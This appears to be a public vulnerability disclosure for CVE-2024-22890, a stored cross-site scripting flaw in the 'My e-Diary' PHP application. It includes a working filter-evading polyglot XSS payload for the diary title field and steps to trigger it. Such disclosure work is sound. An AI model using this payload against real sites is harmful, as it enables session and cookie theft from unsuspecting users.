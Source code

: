 # CVE-2024-22890My e-Diary App - Cross-Site-Scripting
+ *Exploit Title:* CVE-2024-22890-My e-Diary App - Cross-Site-Scripting
+ *Date:* 2024-07-01
+ *Exploit Author:* Burak Sevben
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17074/my-e-diary-using-php-and-mysql-source-code.html
+ *Software Link:* https://www.sourcecodester.com/download-code?nid=17074&title=My+e-Diary+Using+PHP+and+MySQL+with+Source+Code
+ *Version:* 1.0
+ *Tested on:* Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ *CVE:* CVE-2024-22890

## Description:
The My e-Diary application is vulnerable to a cross-site scripting vulnerability because it fails to adequately sanitize user-supplied data. An attacker could exploit this issue to run arbitrary scripting code in an unsuspecting user's browser in the context of the affected site. This could allow an attacker to steal cookie-based authentication credentials and launch other attacks.


## Proof of Concept:
+ Go to http://localhost/my-e-diary/write-diary.php in the 'Your Title' section we write the this code triggers the XSS
```
jaVasCript:/-////'/"/**/(//oNcliCk=alert(1) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--! >\x3csVg/<sVg/oNloAd=alert(document.domain)//>\x3e
```
+ Then go to 'http://localhost/my-e-diary/read-diary.php' XSS will be triggered and a pop-up will appear.

![Ekran görüntüsü 2024-01-12 010820](https://github.com/BurakSevben/CVEs/assets/117217689/dfaf9c9e-3c1a-4763-8311-e93173d69a0c)

![Ekran görüntüsü 2024-01-12 010902](https://github.com/BurakSevben/CVEs/assets/117217689/28a03d7f-2c11-4bdc-bbf4-2fd24a86514d)
